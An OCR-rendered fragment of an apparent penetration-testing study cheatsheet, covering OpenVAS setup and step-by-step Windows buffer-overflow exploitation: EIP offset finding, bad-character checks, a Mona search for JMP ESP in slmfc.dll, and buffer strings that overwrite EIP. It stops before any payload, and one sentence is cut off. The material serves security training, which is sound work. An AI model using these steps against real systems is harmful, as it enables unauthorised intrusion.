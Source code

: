 apt-get install openvas
openvas-setup

    - netstat -tulpn
    - Login at:

https://$ip:9392

# [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='65'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1764' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#buffer-overflows-and-exploits)Buffer Overflows and Exploits

- DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)
- MSFvenom

[*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

- Windows Buffer Overflows
    - Controlling EIP
    - locate pattern_create
    - pattern_create.rb -l 2700
    - locate pattern_offset
    - pattern_offset.rb -q 39694438
    - Verify exact location of EIP - [*] Exact match at offset 2606
    - buffer = "A" * 2606 + "B" * 4 + "C" * 90
    - Check for “Bad Characters” - Run multiple times 0x00 - 0xFF
    - Use Mona to determine a module that is unprotected
    - Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP
    - Otherwise without DEP, we can stick our
    - Use NASM to determine the HEX code for a JMP ESP instruction
        - /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
        - JMP ESP

00000000 FFE4 jmp esp

    - Run Mona in immunity log window to find (FFE4) XEF command
    - !mona find -s "\xff\xe4" -m slmfc.dll

found at 0x5f4a358f - Flip around for little endian format

    - buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
    - MSFVenom to create payload
